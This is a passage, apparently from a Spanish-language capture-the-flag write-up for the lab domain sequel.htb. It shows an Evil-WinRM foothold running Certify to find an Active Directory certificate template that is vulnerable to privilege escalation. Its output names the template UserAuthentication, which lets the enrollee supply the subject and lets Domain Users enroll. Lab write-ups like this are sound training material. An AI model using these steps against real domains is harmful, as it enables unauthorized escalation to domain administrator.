 Podemos abusar de este certificado para obtener el ticket del usuario administrador. Para esta parte nos guiamos de este [Link](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-misconfigured-certificate-template-to-domain-admin "blog"), primero validamos que el certificado que vimos con winpeas sea realmente vulnerable. Para esto utilizamos la herramienta [Link](https://github.com/GhostPack/Certify "Certify").

```powershell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> ./certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=sequel,DC=htb'

[*] Listing info about the Enterprise CA 'sequel-DC-CA'

<SNIP>

[!] Vulnerable Certificates Templates :

    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Domain Users           S-1-5-21-4078382237-1492182817-2568127209-513
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
        WriteOwner Principals       : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
```